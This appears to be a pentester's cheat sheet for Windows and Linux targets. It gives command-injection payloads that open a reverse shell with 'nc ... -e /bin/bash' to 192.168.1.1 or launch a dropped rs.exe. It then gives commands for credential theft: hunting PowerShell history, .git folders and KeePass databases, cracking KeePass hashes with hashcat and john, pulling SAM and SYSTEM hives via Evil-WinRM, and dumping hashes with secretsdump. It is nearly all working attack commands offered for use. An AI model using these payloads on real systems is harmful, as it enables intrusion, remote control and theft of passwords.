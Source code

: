 ### OS Command Injection

Directly try reverse shell

```jsx
conf> write_config 123'; powershell -c C:\Users\Public\rs.exe; '123

{
	"user":"clumsyadmin", 
	"url":"http://192.168.1.1/rs.elf; nc 192.168.1.1 4444 -e /bin/bash"
} 
```

### Interesting file

History

```jsx
Get-History
(Get-PSReadlineOption).HistorySavePath
```

.git

```php
Get-ChildItem -Path C:\ -Recurse -Force -Directory -ErrorAction SilentlyContinue | Where-Object { $_.Name -eq '.git' } | Select-Object FullName
```

.kdbx

```jsx
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
keepass2john Database.kdbx > keepass.hash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt --force
john --wordlist=/usr/share/wordlists/fasttrack.txt  keepass.hash
keepassxc Database.kdbx
```

user folder

```jsx
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
tree /f C:\Users\

\Desktop
\Document
C:\
```

Windows.old

```jsx
C:\windows.old\Windows\system32\
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SAM .
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SYSTEM .
secretsdump.py LOCAL -ntds ntds.dit -system SYSTEM -outputfile credentials.txt
secretsdump.py -sam SAM -security security -system SYSTEM LOCAL
```
